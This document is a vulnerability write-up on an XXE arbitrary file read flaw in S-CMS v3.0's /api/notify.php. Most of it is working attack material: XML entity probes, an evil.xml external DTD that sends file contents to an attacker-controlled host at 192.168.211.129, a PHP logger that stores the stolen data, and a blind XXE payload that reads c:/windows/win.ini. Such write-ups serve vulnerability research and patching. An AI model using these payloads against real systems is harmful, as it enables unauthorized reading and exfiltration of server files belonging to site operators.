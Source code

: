 # S-CMS v3.0 XXE Arbitrary File Read Vulnerability

Vulnerability environment: php5.3/5.4

The vulnerability is located in /api/notify.php, the key code is as follows:

![](https://i.loli.net/2019/07/31/5d4195245438e30847.png)

The simplexml\_load\_string function directly interprets the xml passed in POST, and does not prohibit loading entities.

**Note:** 

> simplexml\_load\_string is the default parsing entity in the old version. In the new version, the entity is no longer parsed by default. You need to specify the third parameter LIBXML\_NOENT, such as `simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT)`

XXE entity detection

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
<!ENTITY test "this is test">
]>
<root>&test;</root>
```


See if external entities are supported

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://192.168.211.129:7777">
]>
<r>&sp;</r>
```


![](https://i.loli.net/2019/07/31/5d41961622b7739997.png)


Create a new evil.xml to be loaded remotely under the attacker server.

```xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.211.129/xxe.php?file=%file;'>"> %payload;
```

Xxe.php is used to record the contents of the read file

```php
<?php
file_put_contents("1.log", $_GET['file']."\n",FILE_APPEND) ;
?>
```


Blind XXE arbitrary file reading

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/windows/win.ini">
<!ENTITY % dtd SYSTEM "http://192.168.211.129/evil.xml">
%dtd;
%send;
]>
<root></root>
```

Send the request, the attacker server will generate a 1.log file, and successfully read the file.

![](https://i.loli.net/2019/07/31/5d4199e2cb0aa13356.png)